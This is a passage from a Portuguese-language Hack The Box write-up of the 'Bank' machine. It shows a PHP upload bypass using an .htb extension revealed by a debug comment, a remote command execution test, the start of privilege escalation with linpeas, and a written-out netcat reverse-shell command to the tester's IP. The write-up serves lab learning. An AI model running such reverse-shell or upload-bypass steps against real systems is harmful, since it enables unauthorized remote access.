 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_rep3.png)

`<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->`

Bom, ai ele já deu a dica do que devemos fazer, adicionar a extensão .htb no final do php... Então realizamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_rep4.png)

Enviamos pro servidor e conseguimos upar, lá em baixo apareceu que o upload foi um sucesso

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_rep5.png)

## Remote Command Execution

Bom, uma vez upado, agora devemos testar pra ver se realmente temos RCE no servidor

Uma pergunta... pra onde ele foi upado? Bom, se lembrarmos no dirsearch lá em cima, tinha um diretório chamado /uploads... é um bom lugar pra começar a ver, encontramos ele na própria página de tickets

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_up.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_up1.png)

Testamos RCE!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_up2.png)

Show agora é pegar um reverse shell da máquina

### Reverse shell

> /bin/nc 10.10.16.92 443 -e /bin/bash

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_up4.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_up5.png)

# Escalação de Privilégio

Agora, com uma shell da máquina vamos iniciar a fase de escalação de privilégio

Para isso rodamos nosso amigo `linpeas`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_lin.png)

> https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bank/B_lin1.png)
